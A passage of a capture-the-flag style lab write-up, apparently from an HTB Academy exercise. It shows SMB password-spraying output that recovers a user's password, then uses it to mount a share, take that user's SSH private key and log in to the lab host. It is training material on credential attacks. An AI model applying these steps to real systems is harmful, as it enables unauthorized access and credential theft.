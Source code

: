 ```c
SMB         10.129.203.6    445    ATTCSVC-LINUX    [-] ATTCSVC-LINUX\jason:warrior STATUS_LOGON_FAILURE 
SMB         10.129.203.6    445    ATTCSVC-LINUX    [-] ATTCSVC-LINUX\jason:1q2w3e4r5t STATUS_LOGON_FAILURE 
SMB         10.129.203.6    445    ATTCSVC-LINUX    [+] ATTCSVC-LINUX\jason:34c8zuNBo91!@28Bszh 
```

6. Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer. 

As we now the username and password, so we can try to ssh as jason to target, but when we try it, we get:
```c
ssh jason@10.129.203.6             
jason@10.129.203.6: Permission denied (publickey).
```

This means that we need to get `id_rsa` which located in the GGJ share, but at first we need to mount to share. Mounting a shared folder from a remote server (like an SMB share) allows you to access its contents as if they were part of your local filesystem. In this case, the reason to mount the SMB share is to access the `id_rsa` file (which is the SSH private key for the user) from the `GGJ` share on the remote server.

First create the folder for mounting:
```c
sudo mkdir -p /mnt/smb_htb
```

So we mount and then copy it (`id_rsa`)to your comfy location:
```c
sudo mount -t cifs //10.129.203.6/GGJ /mnt/smb_htb -o username=jason,password='34c8zuNBo91!@28Bszh',ro 
cp /mnt/smb_htb/id_rsa /home/r3so1ve/hack/htb-academy/attacking-common-services/
```

Making sure we got it:
```c
ls
total 24K
-rwxr-xr-x 1 r3so1ve r3so1ve 3.4K Sep 26 11:59 id_rsa
-rw-r--r-- 1 r3so1ve r3so1ve 2.0K Sep 25 22:17 passwords.list
-rw-rw-r-- 1 r3so1ve r3so1ve 2.5K May  9  2022 pws.list
-rw-r--r-- 1 r3so1ve r3so1ve 1.6K Aug 23 15:09 pws.zip
-rw-rw-r-- 1 r3so1ve r3so1ve   72 Sep 25 22:17 users.list
-rw-r--r-- 1 r3so1ve r3so1ve  434 Aug 23 15:09 users.zip

```

Don't forget to change permissions:
```c
chmod 600 id_rsa 
```

And finally ssh to target:
```c
ssh jason@10.129.203.6 -i id_rsa 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 26 Sep 2024 06:59:23 AM UTC

  System load:  0.04               Processes:               232
  Usage of /:   25.4% of 13.72GB   Users logged in:         0
  Memory usage: 14%                IPv4 address for ens160: 10.129.203.6
  Swap usage:   0%

```